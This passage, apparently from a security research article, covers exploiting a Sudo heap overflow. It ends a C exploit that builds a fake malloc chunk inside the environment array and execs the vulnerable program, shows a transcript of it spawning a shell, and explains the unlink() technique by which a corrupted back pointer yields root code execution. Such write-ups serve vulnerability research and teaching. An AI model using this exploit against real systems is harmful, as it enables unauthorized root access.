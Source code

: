 ```c
        /* the terminating NUL character */
        *p = '\0';

        /* the size of the envp array */
        size = 0;
        for ( p = fake_chunk; p < fake_chunk + (16 + 1); p++ ) {
                if ( *p == '\0' ) {
                        size++;
                }
        }
        size++;

        /* the allocation of the envp array */
        envp = malloc( size * sizeof(char *) );

        /* the content of the envp array */
        size = 0;
        for ( p = fake_chunk; p < fake_chunk + (16+1); p += strlen(p)+1 ) {
                envp[ size++ ] = p;
        }
        envp[ size ] = NULL;

        /* the execution of the vulnerable program */
        execve( argv[0], argv, envp );
        return( -1 );
}
EOF

$ make exploit
cc     exploit.c   -o exploit

$ ./exploit
bash$
```
<PRE>

--[ 4 - Exploiting the Sudo vulnerability ]-----------------------------

----[ 4.1 - The theory ]------------------------------------------------

In order to exploit the Sudo vulnerability, and as mentioned in 2.4, an
attacker should overwrite a byte of the boundary tag located immediately
after the end of the msg buffer, and should take advantage of this
erroneously overwritten byte before it is restored.

Indeed, the exploit provided in 4.2 tricks do_syslog() into overwriting
(at line[5] in do_syslog()) a byte of the bk pointer associated with
this next contiguous boundary tag, tricks malloc(3) into following (at
step[3] in malloc(3)) this corrupted back pointer to a fake chunk of
memory, and tricks malloc(3) into taking (at step[3.2] in malloc(3))
this fake chunk off its imaginary doubly linked-list. The attacker can
therefore apply the unlink() technique presented in 3.6.1 and eventually
execute arbitrary code as root.
